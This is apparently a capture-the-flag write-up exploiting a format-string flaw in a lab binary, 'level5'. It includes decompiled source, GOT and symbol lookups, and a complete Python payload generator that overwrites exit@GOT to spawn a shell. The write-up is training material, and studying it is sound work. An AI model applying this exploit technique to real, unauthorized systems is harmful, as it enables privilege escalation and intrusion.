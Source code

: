 LEVEL_5:
# 📚 Exploiting `level5` – Format String Vulnerability
```
$ ./level5
test
test
$
```
```
void o(void)
{
  system("/bin/sh");
                    // WARNING: Subroutine does not return
  _exit(1);
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    // WARNING: Subroutine does not return
  exit(1);
}

void main(void)
{
  n();
  return;
}

```
## What happens?

The program reads input via fgets() into a large buffer (local_20c).</br>
Then it calls printf(local_20c); — format string vulnerability!</br>
Finally, it calls exit(1);

## Goal
Use the format string vulnerability in printf(local_20c) to overwrite a GOT entry so when exit(1) is called, it actually calls o() instead of the normal exit().
## Step 1: Identify the GOT entry for exit
```
$ readelf -r ./level5 | grep exit
08049828  00000207 R_386_JUMP_SLOT   00000000   _exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit

```
So, exit@GOT is at 0x08049838 
## Step 2: Find the address of o()
```
$ gdb ./level5
(gdb) info fucntions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

```
so the address of o is 0x080484a4

## Step 3: Exploit with format string

Use the format string vulnerability to write the address of o() into exit@GOT.</br>
When n() calls exit(1), the program actually jumps to o(), spawning a shell.

How to write the address?

    Split o() address into two halves (low 2 bytes and high 2 bytes).
    Write these halves to exit@GOT and exit@GOT + 2 using %hn.
    Use format string to print enough characters for padding.

exploit script using python
```
import struct

ret_addr = 0x08049838
win_addr = 0x080484a4

low = win_addr & 0xffff       # 0x84a4
high = (win_addr >> 16)       # 0x0804

addr1 = struct.pack("<I", ret_addr)
addr2 = struct.pack("<I", ret_addr + 2)
print(addr1, addr2)
offset = 4
written = len(addr1) + len(addr2)  # 2 addresses = 8 bytes

pad1 = low - written
pad2 = high - low
if pad1 < 0:
    pad1 += 0x10000
if pad2 < 0:
    pad2 += 0x10000


fmt = "%%%dx%%%d$hn%%%dx%%%d$hn" % (pad1, offset, pad2, offset + 1)

payload = addr1 + addr2 + fmt.encode()

with open("payload.txt", "wb") as f:
    f.write(payload)
print("Payload written with offset %d" % offset)
```
```
(cat payload.txt; cat) | ./level5
whoami
level6
```
